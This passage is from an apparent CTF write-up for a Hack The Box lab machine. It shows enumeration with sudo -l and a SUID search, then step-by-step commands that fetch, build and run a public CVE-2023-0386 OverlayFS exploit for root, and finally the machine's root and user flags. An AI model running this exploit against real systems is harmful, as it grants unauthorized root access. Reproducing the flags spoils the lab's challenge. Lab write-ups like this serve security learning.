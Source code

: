 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106174135.png)

We are inside ssh, let's check our privileges using `sudo -l`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106174306.png)

We can not run sudo with this user, what about `find / -perm -4000 2>/dev/null`:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106174453.png)

We found something really interesting, a `CVE-2023-0386` related file, if we read this CVE, this is what its about:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106174601.png)

Let's find an exploit for this an execute it:

```ad-note

Exploit: [exploit](https://github.com/xkaneiki/CVE-2023-0386)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106174731.png)
```


I will be using that exploit, let's get it and execute it in the machine in the way the author tells us:


```ad-hint
1. `git clone https://github.com/xkaneiki/CVE-2023-0386`
2. `zip -r exploit.zip CVE-2023-0386`
3. `scp exploit.zip admin@2million.htb:/tmp`
4. `cd /tmp`
5. `unzip exploit.zip`
6. `cd /tmp/CVE-2023-0386`
7. `make all`
8. `./fuse ./ovlcap/lower ./gc & ./exp`
9. `./exp`
```

After reproducing all the steps, we get a root shell:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106175456.png)


Now we can read the root flag and the user flag:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106175618.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106175639.png)

```ad-note
root flag: `cca8ef6fecc788f8396049dc9a933d62`
user flag: `d16ba35dd56db9718ba007fbf1e2f0e4`
```
